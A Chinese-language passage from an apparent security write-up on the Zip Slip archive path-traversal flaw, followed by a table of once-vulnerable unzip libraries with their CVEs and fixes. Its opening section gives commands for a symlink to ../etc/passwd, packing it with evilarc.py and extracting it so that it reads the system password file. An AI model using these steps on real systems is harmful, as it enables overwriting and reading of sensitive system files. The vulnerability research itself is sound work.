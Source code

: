 以便于“盲”覆盖目标系统中的`/etc/passwd`文件


#### 构造压缩文件的过程 - zip文件解压symlinks文件实现目录穿越

创建一个符号链接文件(symlinks)

`ln -s ../etc/passwd pass`

文件名`pass`

文件大小`19 bytes`


构造zip压缩包 将该文件压缩
```
python evilarc.py pass --os=unix --depth=0 --output-file=1.zip
```

解压
```
unzip 1.zip
```

解压过程无任何报错 提取出了一个文件

文件名:`pass`

大小:`7kb`

内容与`etc/passwd`完全相同

成功.

#### Zip Slip漏洞列表

参考自[zip-slip-vulnerability/README.md](https://github.com/snyk/zip-slip-vulnerability/blob/master/README.md)

受过影响的库(现已修复)

Affected Libraries


| Vendor         | Product                                                                                                                | Language   | Confirmed vulnerable | Fixed Version                                                                            | CVE              | Fixed(diff)                                                                                                                                                                 |
|----------------|------------------------------------------------------------------------------------------------------------------------|------------|----------------------|------------------------------------------------------------------------------------------|------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| npm library    | [unzipper](https://github.com/ZJONSSON/node-unzipper)                                                                  | JavaScript | YES                  | 0.8.13                                                                                   | [CVE-2018-1002203](https://snyk.io/vuln/npm:unzipper:20180415) | [17/4/2018](https://github.com/ZJONSSON/node-unzipper/pull/59)                                                                                                        |
| npm library    | [adm-zip](https://github.com/cthackers/adm-zip)                                                                        | JavaScript | YES                  | 0.4.9                                                                                    | [CVE-2018-1002204](https://snyk.io/vuln/npm:adm-zip:20180415) | [23/4/2018](https://github.com/cthackers/adm-zip/pull/212)                                                                                                            |
| Java library   | [codehaus/plexus-archiver](https://github.com/codehaus-plexus/plexus-archiver)                                         | Java       | YES                  | 3.6.0                                                                                    | [CVE-2018-1002200](https://snyk.io/vuln/SNYK-JAVA-ORGCODEHAUSPLEXUS-31680) | [6/5/2018](https://github.com/codehaus-plexus/plexus-archiver/pull/87)                                                                                                |
| Java library   | [zeroturnaround/zt-zip](https://github.com/zeroturnaround/zt-zip)                                                      | Java       | YES                  | 1.13                                                                                     | [CVE-2018-1002201](https://snyk.io/vuln/SNYK-JAVA-ORGZEROTURNAROUND-31681) | [26/4/2018](https://github.com/zeroturnaround/zt-zip/blob/master/src/main/java/org/zeroturnaround/zip/ZipUtil.java#L389:26)                                           |
| Java library   | [zip4j](http://www.lingala.net/zip4j/)                                                                                 | Java       | YES                  | [1.3.3](http://www.lingala.net/zip4j/includes/downloadzip4j.php?option=sources&fmt=zip) | [CVE-2018-1002202](https://snyk.io/vuln/SNYK-JAVA-NETLINGALAZIP4J-31679) | 13/6/2018                                                                                                                                                             |
| .NET library   | [DotNetZip.Semverd](https://github.com/haf/DotNetZip.Semverd)                                                          | .NET       | YES                  | 1.11.0                                                                                   | [CVE-2018-1002205](https://snyk.io/vuln/SNYK-DOTNET-DOTNETZIP-60245) | [7/5/2018](https://github.com/haf/DotNetZip.Semverd/compare/master...shana:bugs/relative-paths?expand=1)                                                              |
| .NET library   | [SharpCompress](https://github.com/adamhathcock/sharpcompress)                                                         | .NET       | YES                  | 0.21.0                                                                                   | [CVE-2018-1002206](https://snyk.io/vuln/SNYK-DOTNET-SHARPCOMPRESS-60246) | [2/5/2018](https://github.com/adamhathcock/sharpcompress/blob/2a5494a804dd3d6f5bec1ec79a52d54ffce610f5/src/SharpCompress/Archives/IArchiveEntryExtensions.cs#L58-L67) |
| Go library   | [mholt/archiver](https://github.com/mholt/archiver)                                                                    | Go         | YES                  | e4ef56d4                                                                                 | [CVE-2018-1002207](https://snyk.io/vuln/SNYK-GOLANG-GITHUBCOMMHOLTARCHIVERCMDARCHIVER-50071) | [17/4/2018](https://github.com/mholt/archiver/pull/65)                                                                                                                |
| Oracle         | [java.util.zip](https://docs.oracle.com/javase/8/docs/api/index.html?java/util/zip/package-summary.html)               | Java       | * No High Level API  | Documentation Fix                                                                        | N/A              |                                                                                                                                                                       |